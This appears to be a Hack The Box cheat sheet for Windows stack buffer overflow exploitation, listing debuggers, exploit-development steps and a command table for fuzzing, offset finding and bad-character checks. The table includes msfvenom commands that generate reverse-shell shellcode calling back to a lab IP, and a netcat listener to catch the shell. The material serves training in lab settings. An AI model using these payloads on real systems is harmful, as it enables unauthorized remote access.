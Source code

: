 ## Tools

1. [Immunity Debugger](https://www.immunityinc.com/products/debugger/index.html)

3. [x64DBG](https://github.com/x64dbg/x64dbg)

4. [OllyDBG](http://www.ollydbg.de/)

5. [WinDBG](http://wingdb.com/)

6. [IDA Pro](https://www.hex-rays.com/products/ida/)

## Buffer Overflow Steps

1. Fuzzing Parameters

2. Controlling EIP

3. Identifying Bad Characters

4. Finding a Return Instruction

5. Jumping to Shellcode

## Commands

| Command | Description |

| ----- | ----- |

| **General** |

| `xfreerdp /v:<target IP address> /u:htb-student /p:<password>` | RDP to Windows VM |

| `/usr/bin/msf-pattern_create -l 5000` | Create Pattern |

| `/usr/bin/msf-pattern_offset -q 31684630` | Find Pattern Offset |

| `netstat -a \|findstr LISTEN` | List listening ports on a Windows machine |

| `.\nc.exe 127.0.0.1 8888` | Interact with port |

| `msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'` | Generate Local Privesc Shellcode |

| `msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python' -b '\x00\0x0a'` | Generate Reverse Shell Shellcode |

| `nc -lvnp 1234` | Listen for reverse shell |

| **x32dbg** |

| `F3` | Open file |

| `alt+A` | Attach to a process |

| `alt+L` | Go to Logs Tab |

| `alt+E` | Go to Symbols Tab |

| `ctrl+f` | Search for instruction |

| `ctrl+b` | Search for pattern |

| `Search For>All Modules>Command` | Search all loaded modules for instruction |

| `Search For>All Modules>Pattern` | Search all loaded modules for pattern |

| **ERC** |

| `ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\` | Configure Working Directory |

| `ERC --pattern c 5000` | Create Pattern |

| `ERC --pattern o 1hF0` | Find Pattern Offset |

| `ERC --bytearray` | Generate All Characters Byte Array |

| `ERC --bytearray -bytes 0x00` | Generate Byte Array excluding certain bytes |

| `ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin` | Compare bytes in memory to a Byte Array file |

| `ERC --ModuleInfo` | List loaded modules and their memory protections |

| **Python** |

| `python -c "print('A'*10000)"` | Print fuzzing payload |

| `python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"` | Write fuzzing payload to a file |

| `breakpoint()` | Add breakpoint to Python exploit |

| `c` | Continue from breakpoint |
